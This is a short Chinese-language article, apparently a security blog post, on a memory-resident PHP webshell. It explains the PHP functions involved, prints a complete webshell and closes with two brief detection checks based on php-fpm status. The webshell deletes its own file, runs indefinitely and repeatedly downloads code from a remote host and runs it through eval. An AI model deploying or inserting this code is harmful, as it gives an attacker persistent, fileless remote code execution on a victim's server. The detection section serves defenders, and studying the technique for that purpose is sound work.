 # 内存驻留webshell
## 一、攻击原理
php webshell文件执行后删除自身。此webshell在执行后会自身删除，驻留内存之中，无文件残留。其原理主要利用以下方法：
    ignore_user_abort(true); // 后台运行
这个函数的作用是指示服务器端在远程客户端关闭连接后是否继续执行下面的脚本。如设置为True，则表示如果用户停止脚本运行，仍然不影响脚本的运行
    set_time_limit(0); // 取消脚本运行时间的超时上限
括号里边的数字是执行时间，如果为零说明永久执行直到程序结束，如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。
脚本也有可能被内置的脚本计时器中断。默认的超时限制为30秒。
这个值可以通过设置 php.ini 的 max_execution_time 或 Apache .conf 设置中对应的“php_value max_execution_time”参数或者 set_time_limit() 函数来更改。
php删除自身时借助的函数为
    unlink($_SERVER['SCRIPT_FILENAME']);
unlink函数运行条件较为苛刻，该脚本要具备可执行权限、可修改文件权限时方能执行。
简单的webshell脚本：
    <?php
        chmod($_SERVER['SCRIPT_FILENAME'], 0777);
        unlink($_SERVER['SCRIPT_FILENAME']);
        ignore_user_abort(true);
        set_time_limit(0);
        echo "success";
        $remote_file = 'http://10.211.55.2/111/test.txt';
        while($code = file_get_contents($remote_file)){
        @eval($code);
        echo "xunhuan";
        sleep(5);
        };
    ?>
test.txt中的代码如下：
    file_put_contents('printTime.txt','jweny '.time());
webshell执行后，删除自身，并在该目录生成 printTime.txt，每五秒一次写入一次时间戳。
## 二、检测方案
通过获取php-fpm status：
1. 检查所有php进程处理请求的持续时间
2. 检测执行文件是否在文件系统真实存在
